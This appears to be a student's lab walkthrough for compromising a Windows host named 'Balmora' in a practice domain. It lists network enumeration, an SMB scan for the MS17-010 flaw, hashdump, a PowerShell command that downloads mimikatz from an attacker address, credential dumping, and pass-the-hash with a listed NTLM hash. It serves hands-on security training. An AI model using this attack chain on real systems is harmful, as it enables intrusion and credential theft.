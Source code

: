 ﻿# Balmora - 192.168.2.10
## Andrea Zonnekus 18758119

nbtscan -r 192.168.2.0/24

![](balmora_steps/Aspose.Words.c852cd6a-5625-411a-9868-ca5e216c5421.001.png)

sudo nmap -sV -p- -O 192.168.2.10 -oN host -Pn --script="default or safe" --open![](balmora_steps/Aspose.Words.c852cd6a-5625-411a-9868-ca5e216c5421.002.png)

gobuster dir -u 192.168.2.10 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o http\_enum -x aspx

![](balmora_steps/Aspose.Words.c852cd6a-5625-411a-9868-ca5e216c5421.003.png)



nmap -p 445 192.168.2.10 --script=smb-vuln\* -oN smb

![](balmora_steps/Aspose.Words.c852cd6a-5625-411a-9868-ca5e216c5421.004.png)

search ms17-010

![](balmora_steps/Aspose.Words.c852cd6a-5625-411a-9868-ca5e216c5421.005.png)

![](balmora_steps/Aspose.Words.c852cd6a-5625-411a-9868-ca5e216c5421.006.png)

hashdump

![](balmora_steps/Aspose.Words.c852cd6a-5625-411a-9868-ca5e216c5421.007.png)

(at this point you are local administrator)

powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.8.0.106/mimi64.exe', 'mimikatz.exe')"

sekurlsa::logonpasswords

![](balmora_steps/Aspose.Words.c852cd6a-5625-411a-9868-ca5e216c5421.008.png)

sekurlsa::pth /user:Administrator /domain:MORROWIND-NORTH /ntlm:e04b23bbc2d621b8ac033605f4eac59c

![](balmora_steps/Aspose.Words.c852cd6a-5625-411a-9868-ca5e216c5421.009.png)

migrate 2932

![](balmora_steps/Aspose.Words.c852cd6a-5625-411a-9868-ca5e216c5421.010.png)

(at this time my connection fell)
